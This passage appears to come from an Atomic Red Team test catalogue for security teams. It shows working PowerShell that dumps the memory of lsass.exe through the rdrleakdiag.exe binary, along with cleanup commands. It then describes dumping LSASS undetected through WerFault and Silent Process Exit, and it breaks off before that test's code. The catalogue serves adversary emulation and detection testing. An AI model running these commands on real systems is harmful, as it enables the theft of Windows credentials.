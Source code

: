 


<br/>
<br/>

## Atomic Test #13 - Dump LSASS.exe using lolbin rdrleakdiag.exe
The memory of lsass.exe is often dumped for offline credential theft attacks. 
This can be achieved with lolbin rdrleakdiag.exe. 

Upon successful execution, you should see the following files created, $env:TEMP\minidump_<PID>.dmp and  $env:TEMP\results_<PID>.hlk.

**Supported Platforms:** Windows


**auto_generated_guid:** 47a539d1-61b9-4364-bf49-a68bc2a95ef0






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
if (Test-Path -Path "$env:SystemRoot\System32\rdrleakdiag.exe") {
      $binary_path = "$env:SystemRoot\System32\rdrleakdiag.exe"
  } elseif (Test-Path -Path "$env:SystemRoot\SysWOW64\rdrleakdiag.exe") {
      $binary_path = "$env:SystemRoot\SysWOW64\rdrleakdiag.exe"
  } else {
      $binary_path = "File not found"
      exit 1
  }
$lsass_pid = get-process lsass |select -expand id
if (-not (Test-Path -Path"$env:TEMP\t1003.001-13-rdrleakdiag")) {New-Item -ItemType Directory -Path $env:TEMP\t1003.001-13-rdrleakdiag -Force} 
write-host $binary_path /p $lsass_pid /o $env:TEMP\t1003.001-13-rdrleakdiag /fullmemdmp /wait 1
& $binary_path /p $lsass_pid /o $env:TEMP\t1003.001-13-rdrleakdiag /fullmemdmp /wait 1
Write-Host "Minidump file, minidump_$lsass_pid.dmp can be found inside $env:TEMP\t1003.001-13-rdrleakdiag directory."
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\t1003.001-13-rdrleakdiag -Recurse -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #14 - Dump LSASS.exe Memory through Silent Process Exit
WerFault.exe (Windows Error Reporting process that handles process crashes) can be abused to create a 
memory dump of lsass.exe, in a directory of your choice. This method relies on a mechanism 
introduced in Windows 7 called Silent Process Exit, which provides the ability to trigger
specific actions for a monitored process in one of two scenarios; either the process terminates
itself by calling ExitProcess(), or another process terminates it via the TerminateProcess() API. 
The major advantage of this technique is that it does not cause lsass.exe to crash, and since 
WerFault.exe is used to create file dumps all the time (not just lsass.exe), this method provides 
the added advantage of going undetected. WerFault.exe is a process known for dumping every crashing process, 
from an attacker standpoint this is appealing as their illicit credential extraction will 
appear benign because from a defender’s viewpoint it’s within the realm of normal activity.